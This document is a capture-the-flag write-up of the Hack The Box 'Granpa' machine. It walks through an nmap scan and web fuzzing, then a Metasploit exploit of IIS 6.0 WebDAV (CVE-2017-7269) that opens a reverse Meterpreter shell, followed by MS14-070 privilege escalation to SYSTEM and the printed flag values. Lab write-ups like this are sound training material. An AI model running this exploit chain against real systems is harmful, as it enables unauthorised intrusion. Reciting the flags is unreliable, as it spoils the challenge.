

## Enumeration

### Port Scanning

I began by performing an Nmap scan to identify open ports and gather information about the services running on the target.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Granpa]
└─$ sudo nmap -Pn -n -sC -sV -A -T4 10.10.10.14 -oA Default-Scan 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-21 15:08 +01
Nmap scan report for 10.10.10.14
Host is up (0.052s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Mon, 21 Jul 2025 14:08:40 GMT
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-title: Under Construction
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP (90%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (90%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (89%), Microsoft Windows 2003 SP2 (88%), Microsoft Windows XP SP3 (88%), Microsoft Windows XP (85%), Microsoft Windows Server 2003 (85%), Microsoft Windows XP SP2 (85%), Microsoft Windows XP SP2 or SP3 (85%), Microsoft Windows Server 2003 SP1 - SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   52.12 ms 10.10.14.1
2   52.42 ms 10.10.10.14

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.49 seconds
```

**Valuable Information:**

| Port Number | Service | Version |
| ----------- | ------- | ------------------------- |
| `80/TCP`    | `HTTP`  | `Microsoft IIS httpd 6.0` |

- OS: `windows_server_2003::sp1` (another easy way to guess the OS is by looking at the IIS version and seeing which Windows version it usually runs on.)
- The server uses WebDAV (Web Distributed Authoring and Versioning), which is an extension to the HTTP protocol that allows users to collaboratively edit and manage files on a web server. It essentially turns the web into a read-write medium, enabling more than just browsing. WebDAV allows for features like file locking, versioning, and property management, making it useful for collaborative work and website maintenance.

### Footprinting HTTP-80/TCP

Before launching the fuzzing process, I first visited the root webpage to see if any useful information could be gathered manually

#### Root Webpage



- The root page didn’t reveal anything noteworthy, so I moved on to directory fuzzing in an attempt to uncover hidden directories or files.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Granpa]                                                                                                                                                                                                
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u 'http://10.10.10.14:80/FUZZ' -ic -t 200                                                                                                                                                   
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                  
         \ \_\   \ \_\  \ \____/  \ \_\                   
          \/_/    \/_/   \/___/    \/_/                   
                                                          
       v2.1.0-dev                                         
________________________________________________          
                                                                                                                     
 :: Method           : GET
 :: URL              : http://10.10.10.14:80/FUZZ        
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt                 
 :: Follow redirects : false
 :: Calibration      : false           
 :: Timeout          : 10          
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________                                                          
Images                  [Status: 301, Size: 152, Words: 9, Lines: 2, Duration: 60ms]    
images                  [Status: 301, Size: 152, Words: 9, Lines: 2, Duration: 60ms]    
                        [Status: 200, Size: 1433, Words: 131, Lines: 40, Duration: 68ms]
IMAGES                  [Status: 301, Size: 152, Words: 9, Lines: 2, Duration: 51ms]           
                        [Status: 200, Size: 1433, Words: 131, Lines: 40, Duration: 51ms]                             
_private                [Status: 403, Size: 1529, Words: 173, Lines: 30, Duration: 52ms]                             
:: Progress: [220546/220546] :: Job [1/1] :: 336 req/sec :: Duration: [0:01:24] :: Errors: 0 ::

```

- After fuzzing the discovered directory for additional pages, I wasn’t able to find any useful results. At this point, I decided to explore a different approach.

## Exploitation

- First thing that come to my mind is to check if `IIS 6.0` has a vulnerability, found out that it has a `buffer overflow` vulnerability identfied as `CVE-2017-7269`. 

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Granpa]
└─$ searchsploit --cve CVE-2017-7269
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title   |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft IIS - WebDav 'ScStoragePathFromUrl' Remote Overflow (Metasploit)         | windows/remote/41992.rb
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow | windows/remote/41738.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

OR 

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Granpa]
└─$ searchsploit webdav IIS 6.0     
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow | windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1) | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2) | windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch) | windows/remote/8754.patch
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- We'll be using `WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow`
Let's start Metasploit Framework.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Granpa]
└─$ msfconsole -q 
msf6 > search WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual  Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/iis/iis_webdav_scstoragepathfromurl

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set rhost 10.10.10.14
rhost => 10.10.10.14
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set lhost tun0
lhost => tun0
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run
[*] Started reverse TCP handler on 10.10.14.16:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (177734 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.16:4444 -> 10.10.10.14:1030) at 2025-07-22 15:03:37 +0100

meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 2920 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

```

- Let's try to find the flag

```bash
c:\windows\system32\inetsrv>cd C:\                                              
cd C:\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\

04/12/2017  05:27 PM    <DIR>          ADFS
04/12/2017  05:04 PM                 0 AUTOEXEC.BAT
04/12/2017  05:04 PM                 0 CONFIG.SYS
04/12/2017  05:32 PM    <DIR>          Documents and Settings
04/12/2017  05:17 PM    <DIR>          FPSE_search
04/12/2017  05:17 PM    <DIR>          Inetpub
12/24/2017  08:18 PM    <DIR>          Program Files
09/16/2021  12:52 PM    <DIR>          WINDOWS
04/12/2017  05:05 PM    <DIR>          wmpub
               2 File(s)              0 bytes
               7 Dir(s)   1,371,996,160 bytes free

C:\>cd Documents and Settings
cd Documents and Settings

C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\Documents and Settings

04/12/2017  05:32 PM    <DIR>          .
04/12/2017  05:32 PM    <DIR>          ..
04/12/2017  05:12 PM    <DIR>          Administrator
04/12/2017  05:03 PM    <DIR>          All Users
04/12/2017  05:32 PM    <DIR>          Harry
               0 File(s)              0 bytes
               5 Dir(s)   1,371,996,160 bytes free

C:\Documents and Settings>cd Harry
cd Harry
Access is denied.

C:\Documents and Settings>cd Administrator
cd Administrator
Access is denied.

C:\Documents and Settings>

```

- I’m assuming the flags are located in `C:\Harry` and `C:\Administrator`. So now, it’s time to try and escalate our privileges to access those directories.

## Privilege Escalation

- The first step is to scan the target for any potential privilege escalation paths that we can take advantage of.

```bash
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > search type:POST platform:Windows name:recon 

Matching Modules                                                         
================                                                                                                                                                                              
   #  Name                                           Disclosure Date  Rank    Check  Description                                                                                                                                           
   -  ----                                           ---------------  ----    -----  -----------                                                                                                                                           
   0  post/multi/recon/local_exploit_suggester       .                normal  No     Multi Recon Local Exploit Suggester                                                                                                                   
   1  post/windows/recon/computer_browser_discovery  .                normal  No     Windows Recon Computer Browser Discovery                                                                                                              

Interact with a module by name or index. For example info 1, use 1 or use post/windows/recon/computer_browser_discovery                                                                                                                    
                          
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use 0 
msf6 post(multi/recon/local_exploit_suggester) > options                       
Module options (post/multi/recon/local_exploit_suggester):                       
   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits                                                                                                                                  
                                                                                                       
View the full module info with the info, or info -d command.                              
                  
msf6 post(multi/recon/local_exploit_suggester) > set session 1         
session => 1                                                  
msf6 post(multi/recon/local_exploit_suggester) > run        
```

**Results**

```bash
 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

- Let's try `exploit/windows/local/ms14_070_tcpip_ioctl`

```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > info

       Name: MS14-070 Windows tcpip!SetAddrOptions NULL Pointer Dereference
     Module: exploit/windows/local/ms14_070_tcpip_ioctl
   Platform: Windows
       Arch: x86
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Average
  Disclosed: 2014-11-11

Provided by:
  Matt Bergin <level@korelogic.com>
  Jay Smith <jsmith@korelogic.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Windows Server 2003 SP2

Check supported:
  Yes

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION  1                yes       The session to run this module on

Payload information:

Description:
  A vulnerability within the Microsoft TCP/IP protocol driver tcpip.sys
  can allow a local attacker to trigger a NULL pointer dereference by using a
  specially crafted IOCTL. This flaw can be abused to elevate privileges to
  SYSTEM.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2014-4076
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/MS14-070
  OSVDB (114532)
  https://blog.korelogic.com/blog/2015/01/28/2k3_tcpip_setaddroptions_exploit_dev
  https://www.korelogic.com/Resources/Advisories/KL-001-2015-001.txt


View the full module info with the info -d command.

```

- As we can see, the exploit is designed for `Windows Server 2003 SP2`, which matches the target identified earlier.

```bash
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run
[*] Started reverse TCP handler on 10.10.14.16:4444 
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getsid: Operation failed: Access is denied.
[*] Exploit completed, but no session was created.
```

- It appears that the current process lacks the necessary permissions, so I attempted to migrate to another process with higher privileges to gain broader system access.


```bash

msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions 1 
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 272   4     smss.exe
 320   272   csrss.exe
 344   272   winlogon.exe
...
...
...
 1888  392   alg.exe
 1900  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 2232  344   logon.scr
 2304  1504  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2400  584   wmiprvse.exe
 2736  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 2836  2304  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 3844  1072  cidaemon.exe

meterpreter > migrate 1900
[*] Migrating from 2836 to 1900...
[*] Migration completed successfully.
meterpreter > background 
[*] Backgrounding session 1...

msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run
[*] Started reverse TCP handler on 10.10.14.16:4444 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Sending stage (177734 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.16:4444 -> 10.10.10.14:1033) at 2025-07-23 00:57:47 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

- Now, let's proceed by searching for the user and root flags.

```bash
C:\Documents and Settings>cd C:\Documents and Settings\HArry
cd C:\Documents and Settings\HArry

C:\Documents and Settings\Harry>cd Desktop
cd Desktop

C:\Documents and Settings\Harry\Desktop>more user.txt
more user.txt
bdff5ec67c3cff017f2bedc146a5d869

C:\Documents and Settings\Harry\Desktop>cd ..\..\Administrator\Desktop
cd ..\..\Administrator\Desktop

C:\Documents and Settings\Administrator\Desktop>more root.txt
more root.txt
9359e905a2c35f861f6a57cecf28bb7b

```

User Flag → **`bdff5ec67c3cff017f2bedc146a5d869`**

Root Flag → **`9359e905a2c35f861f6a57cecf28bb7b`** 

Thank you for your time.

# Mission complete


